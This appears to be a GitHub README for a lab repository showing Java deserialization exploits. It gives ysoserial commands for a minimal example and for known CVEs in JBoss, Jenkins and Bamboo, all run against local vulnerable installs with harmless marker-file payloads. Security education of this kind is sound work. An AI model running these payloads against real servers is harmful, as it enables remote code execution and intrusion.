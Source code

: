 # Java Deserialization Of Untrusted Data
Here there are practical examples of the - deserialization of untrusted data - vulnerability.

These pocs use the [ysoserial](https://github.com/frohoff/ysoserial/) tool to generate exploits.

<a href="https://www.buymeacoffee.com/edoardovignati" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee"  width="20%"></a>

# Pocs

Minimal Example
---------------------------------
- Use OpenJDK 1.8
```
cd MinimalExample
java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
cp ./exploit.sh /tmp
chmod +x /tmp/exploit.sh
javac Employee.java
javac DeSerializingObject.java
java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
```
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE-2016-7065)
---------------------------------

- Use OpenJDK 1.8
- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Run jboss: ```java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar```
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: ```java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser``` or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"

https://www.vulmon.com/vulnerabilitydetails?qid=CVE-2016-7065&scoretype=cvssv2


Jenkins (CVE-2015-8103)
---------------------------------
- Use OpenJDK 1.8
- Download a vulnerable version of Jenkins (in this case you can find the v1.649)
```
java -jar ./jenkins-war-1.649.war
java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"
```

https://www.vulmon.com/vulnerabilitydetails?qid=CVE-2015-8103&scoretype=cvssv2


Bamboo (CVE-2015-6576)
---------------------------------

- Use openJDK 1.7
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
```java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser ```
  or use the payload inside the folder JBoss

https://www.vulmon.com/vulnerabilitydetails?qid=CVE-2015-6576&scoretype=cvssv2
	

# Ysoserial stacktraces

Find them in the /Ysoserial-stacktraces directory

# References and readings

- https://www.edoardovignati.it/how-to-install-old-versions-of-java-jdk/
- https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478

# Defenses
- https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21


